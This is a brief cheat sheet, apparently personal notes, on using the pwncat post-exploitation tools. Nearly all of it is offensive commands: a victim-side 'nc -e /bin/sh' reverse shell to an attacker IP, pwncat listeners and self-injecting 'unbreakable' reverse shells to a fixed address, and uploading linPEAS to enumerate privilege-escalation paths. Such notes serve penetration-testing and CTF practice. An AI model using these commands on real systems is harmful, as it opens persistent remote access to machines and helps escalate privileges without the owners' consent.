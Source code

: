 # pwncat (john hammond)

https://github.com/calebstewart/pwncat.

https://pwncat.readthedocs.io/en/latest/usage.html

```
L >pwncat -l 4444 |. pwncat bind://0.0.0.0:4444
V >nc -e /bin/sh 10.0.0.1 4444
L >cntrl+d 
L >run help
```
``` 
(local) > upload /opt/linpeas.sh

(local) > enum -s -a
```
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS


# pwncat

https://github.com/cytopia/pwncat

unbreakable reverse shells
```
pwncat -l 4444 --self-inject /bin/sh:192.168.137.114:4444
pwncat -l 4444 --self-inject /bin/sh:192.168.137.114:4444+3
cntrl+c 

pwncat -l 4444 -vv
or
nc -lnvp 4444
```
